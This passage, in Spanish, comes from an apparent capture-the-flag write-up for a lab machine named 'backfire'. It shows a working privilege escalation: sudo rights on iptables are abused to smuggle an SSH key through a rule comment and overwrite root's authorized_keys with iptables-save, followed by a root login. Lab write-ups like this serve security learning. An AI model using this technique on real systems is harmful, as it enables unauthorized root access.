 Buscando otras maneras de aprovecharnos de estos privilegios de `sudoers`, pensamos en subir nuestra clave pública SSH al archivo `authorized_keys` del usuario `root.` En un principio no deberíamos tener problemas al ejecutar el `iptables && iptables-save` con permisos de `sudo`.

Copiaremos nuestra clave SSH pública que obtuvimos en los pasos anteriores.

```bash
❯ cat id_ed25519.pub
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINchj1ycZWUZctrUZl/nhPPxygCF1kT7UbFMFfVqiyz0 kali@kali
```

Volveremos a realizar el PrivEsc aprovechándonos de estos permisos de `sudoers`. En este caso, crearemos un nuevo comentario que contenga nuestra clave SSH pública. Revisaremos que nos aparece el comentario en las reglas de `iptables`, y procederemos a sobreescribir el archivo mencionado.

```bash
sudo /usr/sbin/iptables -A INPUT -i lo -j ACCEPT -m comment --comment $'\nssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINchj1ycZWUZctrUZl/nhPPxygCF1kT7UbFMFfVqiyz0 kali@kali\n'

sudo /usr/sbin/iptables -S

sudo /usr/sbin/iptables-save -f /root/.ssh/authorized_keys
```

<figure><img src="../../.gitbook/assets/imagen (211).png" alt=""><figcaption></figcaption></figure>

Al intentar acceder mediante SSH con el usuario `root`, comprobamos que no se solicita credenciales. Al subir nuestra clave pública SSH al archivo `/root/.ssh/authorized_keys`, logramos conectarnos sin necesidad de proporcionar una contraseña, ya que la clave pública almacenada en ese archivo se comunica directamente con nuestra clave privada.

Logramos acceso a la máquina como usuario `root` y verificamos la flag de **root.txt**.

```bash
❯ ssh root@10.10.11.49
Linux backfire 6.1.0-29-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.123-1 (2025-01-02) x86_64
root@backfire:~$ cat root.txt 
16ac29c65cc*********************
```
